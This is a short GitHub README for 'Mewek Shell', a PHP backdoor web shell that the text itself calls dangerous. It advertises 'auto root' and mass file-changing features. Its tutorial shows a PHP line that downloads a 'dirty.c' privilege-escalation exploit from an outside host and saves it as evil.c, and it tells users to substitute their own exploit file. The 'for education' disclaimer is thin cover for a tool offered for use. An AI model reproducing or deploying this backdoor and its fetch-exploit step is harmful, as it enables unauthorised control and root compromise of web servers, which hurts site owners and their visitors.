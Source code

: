 # Mewek shell
Mewek Shell is a Backdoor shell dangerous, so just use the shell for education

## Feature Update
- Auto Root
- Mass Change File type and File

## Tutorial Auto Root
search coment "//Code Auto Root" user CTRL + F
```html
file_put_contents("evil.c", file_get_contents("http://haxorid.com/dirty.c"));
```
and change [http://haxorid.com/dirty.c] with your dirty file

## :octocat: Credits
- Thanks to https://saranghandago.com
